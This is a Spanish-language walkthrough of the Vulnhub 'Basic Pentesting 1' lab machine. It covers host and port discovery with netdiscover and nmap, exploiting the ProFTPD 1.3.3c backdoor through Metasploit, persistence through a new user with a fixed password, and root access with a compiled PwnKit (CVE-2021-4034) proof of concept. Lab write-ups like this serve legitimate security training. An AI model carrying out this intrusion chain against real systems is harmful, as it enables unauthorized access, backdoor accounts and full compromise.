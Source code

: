 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 1"
description: Pentesting a máquina CSEC en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [Vulnhub](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Descubrimiento de host

Usamos `sudo netdiscover` para descubrir los host en la red.

```plaintext
Ubuntu:   192.168.0.20
Kali:     192.168.0.16
```

## Descubriendo servicios y versiones

Debemos identificar puertos, servicios y versiones de los mismos.

Usamos `nmap -sT -p- -A 192.168.0.26 -oA resultados`

En los resultados encontramos algo de interés:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

## Explotando la maquina

### Buscar exploit

Vamos a probar a romper `FTPd` con `metasploit`

Podemos lanzar metasploit con `msfconsole`

Si buscamos exploits con `search proFTPd` podemos encontrar una para nuestra version.

### Configuracion del exploit

Puedes usar `use unix/ftp/proftpd_133c_backdoor` para usar este exploit, tambien puedes usar su index.

Con show options vemos que debemos indicar el `rhosts`, `lhost` y un `exploit target` o payload a ejecutar.

Para ver los payloads disponibles `show payloads`.

Para cargar un payload `set payload index|path`. 

Para configurar la maquina a atacar `set rhosts 192.168.0.26`.

Para configurar que maquina se queda escuchando `set lhost 192.168.0.16`.

Lanzamos con `run`, deberíamos obtener acceso a una terminal, podemos comprobarlo con `whoami` o `ls`.

### Persistencia

Podemos crear un usuario con `useradd hhyyppeerr`.

Y crear una contraseña con `echo "hhyyppeerr:ilovesummer" | chpasswd`

Podemos comprobar que podemos entrar al sistema con `ssh hhyyppeerr@192.168.0.26` e introduciendo `ilovesummer` como contraseña.

## Weaponization y escalado de privilegios

Copiamos `linpeas` o el script que queramos usar a la maquina objetivo con `scp ./linpeas.sh hhyyppeerr@192.168.0.26:/tmp/linpeas.sh`.

Entramos de nuevo en la maquina objetivo con nuestro usuario y lanzamos el script.

Linpeas nos ha mostrado el siguiente exploit disponible:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                            
[+] [CVE-2021-4034] PwnKit                                                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Podemos buscar el CVE para encontrar exploits, en nuestro caso: https://github.com/arthepsy/CVE-2021-4034

Nos copiamos el repositorio a la maquina objetivo con `nano` o `scp`.

Compilamos y ejecutamos el codigo:

```plaintext
$ ls
cve-2021-4034-poc.c  README.md
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ls
cve-2021-4034-poc  cve-2021-4034-poc.c  README.md
$ ./cve-2021-4034-poc
# whoami
root
```

Puede que esto no funcione, pero con `make` si.
